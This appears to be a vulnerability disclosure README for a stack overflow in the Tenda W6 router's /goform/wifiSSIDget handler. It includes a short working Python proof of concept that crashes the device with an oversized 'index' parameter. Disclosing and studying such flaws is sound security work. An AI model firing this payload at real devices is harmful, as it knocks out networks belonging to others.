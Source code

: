 # Tenda W6 Stack Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A stack overflow vulnerability exists in /goform/wifiSSIDget in Tenda W6 V1.0.0.9(4122) version, which can be exploited by attackers to cause a denial of service (DoS) via the index parameter.

The firmware can be downloaded at: https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability Location
/goform/wifiSSIDget

formwrlSSIDget() 

![image-20220708154237741](pic/image-20220708154237741.png)

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/wifiSSIDget"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x1000

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [Please see the video for the demonstration](./video/1.mp4)
